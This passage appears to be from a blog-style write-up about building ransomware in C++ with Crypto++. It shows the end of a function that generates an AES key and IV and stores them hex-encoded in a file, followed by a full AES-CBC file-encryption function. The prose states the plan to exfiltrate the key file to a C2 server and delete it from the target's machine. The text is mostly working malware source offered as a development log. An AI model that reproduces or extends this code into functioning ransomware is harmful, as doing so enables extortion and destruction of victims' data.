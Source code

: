 ```cpp
    encoder.Attach(new StringSink(encodedKey));
    encoder.Put(key.data(), key.size());
    encoder.MessageEnd();

    encoder.Attach(new StringSink(encodedIV));
    encoder.Put(iv.data(), iv.size());
    encoder.MessageEnd();

    // Write keys to file
    ofstream outFile(keyFile);
    if (!outFile) {
        cerr << "[-] Could not open output file to store keys: " << keyFile << endl;
        return EXIT_FAILURE;
    }
    outFile << encodedKey << '\n' << encodedIV;
    outFile.flush();
    outFile.close();

    cout << "[+] Key and IV generated successfully and stored in: " << keyFile << endl;
    return EXIT_SUCCESS;
}
```

The generate keys function generates the key and IV, hex encodes them and then stores that in a file. It first checks if the file already exists and if it does, it just uses values from that file. This was done to prevent double encryption or any other issues that may have arised as a result. The plan is to have the file containing the keys exfiltrated to the C2 and then deleted from the target's machine (yet to implement this).

### Encryption

The below function handles the encryption:

```cpp
int encryptFile(const fs::path& inputFile, const fs::path& outputFile, const fs::path& keyFile) {
    std::vector<CryptoPP::byte> key;
    std::vector<CryptoPP::byte> iv;

    `loadKeys`(keyFile, key, iv);

    try {
        CBC_Mode<AES>::Encryption encryptor;
        encryptor.SetKeyWithIV(key.data(), key.size(), iv.data(), iv.size());

        // Encrypt File
        FileSource(inputFile.string().c_str(), true,
            new StreamTransformationFilter(encryptor,
                new FileSink(outputFile.string().c_str()),
                BlockPaddingSchemeDef::PKCS_PADDING)
        );

        cout << "[+] File encrypted successfully: " << outputFile << endl;
        return EXIT_SUCCESS;
    }
    catch (const Exception& error) {
        cerr << "[-] Encryption failed: " << error.what() << endl;
        return EXIT_FAILURE;
    }
}
```
